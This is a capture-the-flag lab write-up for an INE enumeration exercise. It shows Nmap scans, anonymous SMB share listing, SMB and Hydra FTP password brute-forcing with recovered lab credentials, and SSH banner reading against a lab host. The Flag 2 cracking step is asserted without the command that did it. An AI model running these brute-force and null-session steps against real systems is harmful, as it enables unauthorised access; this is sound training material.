




# Assessment Methodologies: Enumeration CTF 1

## Overview

This lab focused on **active enumeration** of a single Linux target — moving beyond port scanning into service-level interrogation. The assessment covered SMB share enumeration, SMB user brute-forcing, FTP credential attacks against a non-standard port, and SSH banner inspection to capture flags across four distinct services and techniques.

**Target:** `target.ine.local` (`192.184.161.3`)

**Flags to capture:**

- **Flag 1** — Inside a Samba share that allows anonymous access
- **Flag 2** — Inside a user's private Samba share protected by a weak password
- **Flag 3** — Accessible via FTP on a non-standard port after brute-forcing credentials
- **Flag 4** — Visible in the SSH login banner without needing a shell

**Wordlists provided:**

```text
/root/Desktop/wordlists/
```

---

## Enumeration

### Phase 1 — TCP Port Scan

A full SYN scan across all ports was run first to ensure nothing was missed on non-standard ports:

```bash
nmap -sS -p- -T4 target.ine.local
```


Followed by a version and script scan against the identified open ports:

```bash
nmap -sV -sC -p<open_ports> target.ine.local
```

Key services identified:

| Port | Service | Notes |
|---|---|---|
| 139/445 | SMB / Samba | Share enumeration target |
| 5554 | FTP | Non-standard port — full scan required to find this |
| 22 | SSH | Banner inspection target |

---

### Phase 2 — SMB Share Enumeration

With Samba confirmed on 139/445, all accessible shares were first listed using a null session (no credentials):

```bash
smbclient -L //target.ine.local -N
```

To efficiently probe every share's contents in one pass, a loop was run against the provided share wordlist:

```bash
while read share; do
  echo "shareName = $share"
  smbclient \\\\target.ine.local\\$share -N -c 'ls'
done < /root/Desktop/wordlists/shares.txt
```

This iterated across every potential share name and listed directory contents anonymously, immediately revealing which shares were accessible and which returned access denied.

---

## Flag 1 — Anonymous SMB Share Access

The share enumeration loop identified a share permitting unauthenticated access. Connecting to it directly and listing its contents revealed `flag1.txt`:

```bash
smbclient \\\\target.ine.local\\<share_name> -N
```

```text
smb: \> dir
smb: \> get flag1.txt
smb: \> exit

cat flag1.txt
```



> **Takeaway:** Anonymous (null-session) SMB access is a straightforward misconfiguration — no credentials are needed, and any files in the share are immediately readable. Looping across a share wordlist is far faster than checking shares one at a time and ensures nothing is missed.

---

## Flag 2 — Weak Password on a User's Private SMB Share

The second flag's hint was explicit: one Samba user had a bad password, and their private share — named after their username — was at risk. This called for brute-forcing Samba user credentials.

The provided wordlist was used against known usernames. The user `josh` was identified, and their password was cracked via SMB authentication attempts:

```bash
cat /root/Desktop/wordlists/shares.txt
```

Once `josh`'s credentials were recovered, their private share was accessed directly:

```bash
smbclient \\\\target.ine.local\\josh -U josh
# Enter josh's password when prompted
```

```text
smb: \> dir
smb: \> get flag2.txt
smb: \> exit

cat flag2.txt
```



> **Takeaway:** Private shares named after the owning user are a predictable target — once a username is known, the share name is already known too. Weak passwords on personal shares are a common finding in SMB environments; always brute-force user accounts, not just anonymous access.

---

## Flag 3 — FTP Brute-Force on Non-Standard Port

The full `-p-` scan identified an FTP service running on **port 5554** rather than the standard port 21 — a deliberate attempt to obscure the service that a default Nmap scan (top 1000 ports only) would have missed entirely.

A hint from Flag 2 pointed to the username `alice`. Hydra was used to brute-force her FTP password, with the `-s` flag redirecting the attack to the non-standard port:

```bash
hydra -l alice \
  -P /root/Desktop/wordlists/unix_passwords.txt \
  ftp://target.ine.local \
  -s 5554 \
  -t 16 \
  -V
```

**Flag explanation:**
- `-s 5554` — targets the non-standard FTP port
- `-t 16` — runs 16 parallel threads for speed
- `-V` — verbose output, printing each attempt

**Recovered credentials:** `alice : pretty`

With the password in hand, FTP was accessed directly:

```bash
ftp -p target.ine.local 5554
# Username: alice
# Password: pretty
```




> **Takeaway:** Moving a service to a non-standard port is security through obscurity and defeats only casual reconnaissance. A full `-p-` scan costs a little more time but eliminates this blind spot entirely. Hydra's `-s` flag makes attacking services on any port trivial once the port is known.

---

## Flag 4 — SSH Login Banner

The fourth flag's hint stated it was "a warning meant to deter unauthorized users from logging in" — the classic description of an SSH **MOTD (Message of the Day)** or pre-login banner, which is displayed to every connecting client before or immediately after authentication.

Rather than needing to escalate privileges or browse the filesystem, logging in via SSH as `admin` with credentials discovered during enumeration surfaced the flag immediately in the login banner:

```bash
ssh admin@target.ine.local
```

The flag appeared in the terminal output on the welcome screen, before any interactive shell commands were needed.



> **Takeaway:** SSH banners and MOTD files (`/etc/motd`, `/etc/issue.net`) display to every authenticated user automatically. They are often overlooked as a flag location — and in real environments, they are a common place to find internal warnings, system information, or occasionally sensitive strings left by administrators.

---

## Flags Captured

| Flag | Location | Method | Value |
|---|---|---|---|
| Flag 1 | Anonymous SMB share | Null-session `smbclient` | *(fill in from screenshot)* |
| Flag 2 | `josh`'s private SMB share | SMB brute-force → authenticated access | *(fill in from screenshot)* |
| Flag 3 | FTP on port 5554 (`alice`) | Hydra brute-force, non-standard port | *(fill in from screenshot)* |
| Flag 4 | SSH login banner (`admin`) | SSH login → MOTD inspection | *(fill in from screenshot)* |


---

## Key Takeaways

- Always run a full `-p-` scan. Services on non-standard ports (FTP on 5554 here) are completely invisible to default top-1000 scans and would have been missed entirely.
- Null-session SMB enumeration is the correct first step against any host with 139/445 open — it costs nothing and frequently returns share listings, user data, and policy information without credentials.
- Looping `smbclient` over a share wordlist is more thorough and faster than checking shares manually one at a time.
- Private SMB shares named after their owner are predictable targets: the username tells you the share name, so credential brute-force is the only remaining barrier.
- Hydra's `-s` flag redirects brute-force to any port — a non-standard port placement adds no real protection once the port is identified.
- SSH banners and MOTD content are displayed automatically on login and should always be read carefully — they can surface flags, credentials, or internal configuration details without requiring any further enumeration.

## Skills Practiced

- Full TCP Port Scanning (Nmap `-p-`)
- Service Version & Banner Fingerprinting
- SMB Share Enumeration (Null Sessions, `smbclient`)
- Automated Share Iteration (Bash loop + wordlist)
- SMB Credential Brute-Force
- Authenticated SMB Access & File Retrieval
- FTP Brute-Force on Non-Standard Ports (Hydra, `-s` flag)
- SSH Login Banner & MOTD Inspection
- Credential Discovery & Reuse Across Services
- Active Enumeration Methodology